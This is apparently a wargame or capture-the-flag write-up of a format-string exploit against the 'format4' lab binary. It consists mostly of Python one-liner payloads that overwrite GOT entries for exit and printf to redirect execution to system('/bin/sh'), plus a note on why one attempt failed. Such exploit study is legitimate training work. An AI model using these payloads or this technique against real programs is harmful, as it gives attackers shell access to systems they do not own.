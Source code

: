 dump way: python -c "print 'AAAAAAAA' + '\x24\x97\x04\x08'+'%x '*4+'%134513800x '+'%n'" | ./format4 <br>
pop shell attempts:
- **#1** `python -c "print 'AAAAAAAA' + '\x24\x97\x04\x08'+'BBBB'+'\x26\x97\x04\x08'+'\xc0\xf4\xff\xbf'+'\xc2\xf4\xff\xbf'+'%x '*4+'%26196x '+'%n'+'%20825x '+'%n'+'%109524x '+'%9\$n' +'%21564x' +'%10\$n'"` => would fail cuz before calling exit it will move **1** to ESP, **overwriting** the pointer to **/bin/sh**
- **#2** `python -c "print 'AAAAAAAA'+'\x24\x97\x04\x08'+'\x26\x97\x04\x08'+'\x1c\x97\x04\x08'+'\x1e\x97\x04\x08'+'\xa0\xf2\xff\xbf'+'\xa2\xf2\xff\xbf'+'%33969x '+'%6\$n'+'%33585x '+'%7\$n' + '%63403x ' + '%8\$n'+'%47164x'+'%9\$n'+'%43987x'+'%10\$n'+'%87100x'+'%11\$n'"` > /tmp/test.txt => **rewrite** the address of **exit** to **vuln**, and **rewrite** the address of printf to **system**, put the **/bin/sh** to **buffer**, when it execute the **vuln** function again, the **/bin/sh** will be on top of the stack and thus passed to **system**. Worked like a champ~
